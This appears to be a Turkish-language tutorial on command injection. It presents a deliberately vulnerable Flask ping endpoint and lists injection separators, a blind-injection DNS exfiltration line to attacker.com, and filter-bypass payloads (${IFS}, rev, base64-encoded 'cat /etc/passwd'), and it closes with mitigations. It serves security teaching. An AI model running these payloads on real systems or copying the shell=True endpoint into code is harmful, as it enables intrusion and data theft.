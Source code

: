 # Command Injection & Argument Injection
Command Injection, web uygulamalarının kullanıcıdan aldığı girdiyi yeterli doğrulama veya filtreleme yapmadan doğrudan işletim sistemi komutuna iletmesi sonucu ortaya çıkan kritik bir güvenlik açığıdır. Bu zafiyet sayesinde saldırgan, uygulamanın çalıştığı işletim sistemi üzerinde uygulamanın yetkileriyle (çoğunlukla www-data, apache, nginx) arbitrary command execution gerçekleştirebilir.

Command Injection genellikle aşağıdaki koşullarda görülür:
- Kullanıcı girdisinin system(), exec(), shell_exec(), os.system() gibi OS komut çalıştırma fonksiyonlarına parametre olarak verilmesi
- Girdi doğrulama ve sanitize mekanizmalarının eksik veya hatalı olması
- İşletim sistemi komutlarının shell üzerinden çağrılması (örn: /bin/sh -c "komut")

Bu zafiyetin istismarı sonucunda saldırgan, dosya sistemi üzerinde okuma/yazma, ağ bağlantıları kurma, hassas verileri sızdırma gibi saldırılar gerçekleştirebilir.

# Command Injection Saldırısının İşleyişi
Aşağıda, Command Injection zafiyetine sahip bir Flask uygulaması örneği bulunmaktadır. Yorum satırları, kodun işleyişini adım adım açıklar. Bu örnek, kullanıcı girdisinin doğrudan işletim sistemi komutuna iletilmesi sonucu ortaya çıkan güvenlik açığını göstermektedir.

```python
from flask import Flask, request
import subprocess

app = Flask(__name__)

@app.route('/ping', methods=['GET'])
def ping():
    ip = request.args.get('ip')  # /ping?ip=127.0.0.1 ile kullanıcı IP gönderir
    command = 'ping -c 1 ' + ip # Ping komutu oluşturuluyor
    # subprocess.run ile komut çalıştırılıyor. shell=True nedeniyle Command Injection riski var
    result = subprocess.run(command, shell=True, capture_output=True, text=True) # ip adresini eklediği ping komutunu çalıştırır
    return f"<pre>{result.stdout}</pre>"  # Çıktı ekrana yazdırılıyor


if __name__=='__main__': 
   app.run(debug=True) 
```

Geliştirici, kodun şu şekilde çalıştırılacağını varsayar:
```url
http://example.com/ping?ip=google.com
```

Ancak bir saldırgan, shell operatörlerini kullanarak kolayca RCE elde edebilir:
```url
http://example.com/ping?ip=google.com;whoami
```

Bu istek çalışacaktır çünkü kullanıcı girdisi üzerinde herhangi bir filtreleme yapılmamaktadır ve komut olduğu gibi çalıştırılmaktadır. Aşağıda kullanılabilecek bazı parametre örnekleri bulunmaktadır:
```bash
; whoami
& whoami &
&& whoami
| whoami
`whoami`
$(whoami)
|| whoami
\n whoami
```

## Blind Command Injection
Bazı uygulamalarda çıktıyı göremezsiniz. Bu durumda zaman tabanlı veya dışa veri sızdırma yöntemleri kullanılır. Örnekler:
- Zaman tabanlı:
```url
http://example.com/ping?ip=127.0.0.1; sleep 5
```
Yanıtın gecikmesi zafiyeti doğrular.

- DNS/HTTP exfiltration:
```url
http://example.com/ping?ip=127.0.0.1; nslookup $(whoami).attacker.com
```

Sistem bilgisi saldırgan sunucusuna gönderilir.

# Command Injection’da Filtre Bypass Teknikleri
Command Injection testlerinde bazen uygulamalar belirli karakterleri veya komutları filtreler. Bu durumda klasik payload’lar çalışmaz. İşte farklı bypass teknikleri ve mantıkları:
## {IFS} (Internal Field Separator)
- Ne işe yarar: Boşluk karakterleri filtrelendiğinde kullanılabilir.
- Mantık: {IFS} POSIX/Linux ortamlarında boşluk yerine geçer. Regex veya whitelist filtrelerini atlatmak için idealdir.
Örnek:
```bash
ping${IFS}-c${IFS}1${IFS}127.0.0.1
```

Burada boşluk yerine ${IFS} kullanıldı, komut hâlâ çalışır.

## Karakter ve Substring Manipülasyonları
Bazı filtreler ;, / veya belirli karakterleri engeller. Karakterleri substring veya array manipülasyonu ile bypass edebiliriz.

Örnekler:
- Linux / karakteri:
```bash
echo ${PATH:0:1}   # PATH değişkeninin ilk karakteri
```

- ; karakteri (Linux):
```bash
echo ${LS_COLORS:10:1}
```
3. Blacklist Komutları Bypasslamak
- Mantık: Filtre belirli kelimeleri engelliyorsa, stringi parçalayıp yeniden birleştirebiliriz.

Linux Örnekleri:
```bash
w'h'o'am'i
w"h"o"am"i
who$@ami
(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
$(a="WhOaMi"; printf %s "${a,,}")
```

## rev Komutu
- Mantık: Filtre belirli komut kelimelerini engelliyorsa, kelimeyi ters yazıp rev ile düzeltebiliriz.

Örnek:
```bash
$(rev<<<'imaohw')
```

'imaohw' → ters yazılmış whoami, rev ile shell’de düzeltip çalıştırılır.

## Base64 Encoding
- Mantık: Payload’ı Base64’e encode edip shell içinde decode ederek çalıştırmak, filtreleri veya WAF’ları atlatır.

Örnek:
```bash
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dk==)
```

"Y2F0IC9ldGMvcGFzc3dk==" → cat /etc/passwd komutunu temsil eder. Filtre doğrudan komutu göremez.

# Command Injection Zafiyetini Önlemek
## shell=False kullanmak
subprocess gibi modüllerde shell=True kullanmak, kullanıcı girdisinin doğrudan kabuk komutuna aktarılması anlamına gelir ve saldırıya açıktır. shell=False kullanarak komut ve parametreleri ayrı bir liste olarak ver, böylece kabuk yorumlaması devre dışı kalır.
```python
import subprocess

# Güvensiz
subprocess.run(f"ls {user_input}", shell=True)

# Güvenli
subprocess.run(["ls", user_input], shell=False)
```

## shlex.quote veya benzeri escaping fonksiyonları
Kullanıcı girdisi bir şekilde komut satırına geçmek zorundaysa, özel karakterleri kaçırarak güvenli hâle getir. Bu, özellikle shell=True zorunluysa kritik bir önlemdir.
```python
import subprocess, shlex

safe_input = shlex.quote(user_input)
subprocess.run(f"ls {safe_input}", shell=True)
```